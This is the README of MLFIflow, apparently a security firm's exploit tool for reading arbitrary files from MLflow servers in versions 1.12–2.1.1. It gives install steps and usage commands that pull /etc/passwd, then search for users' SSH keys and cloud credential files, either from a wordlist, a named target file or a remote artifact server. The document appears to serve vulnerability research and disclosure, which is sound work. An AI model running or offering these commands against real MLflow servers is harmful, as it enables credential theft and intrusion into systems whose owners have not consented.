 # MLFIflow

MLFIflow is an exploit tool for reading arbitrary files from MLflow servers version 1.12 - 2.1.1.

## Installation

```bash
git clone https://github.com/protectai/Snaike-MLflow.git
cd Snaike-MLflow/MLFIflow
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

By default, MLFIflow will attempt to read /etc/passwd from the MLflow server and use the usernames found to search for
SSH keys and cloud credential files.
```bash
python MLFIflow.py -s http://127.0.0.1:5000
```

To specify a wordlist of files to download, use the -f flag:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -f /path/to/wordlist.txt
```

Read files from a remote artifact server:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -f /path/to/wordlist.txt --remote http://1.2.3.4
```

Read a specific file from the MLflow server:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -t /etc/passwd
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

## License

Copyright 2023 ProtectAI

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

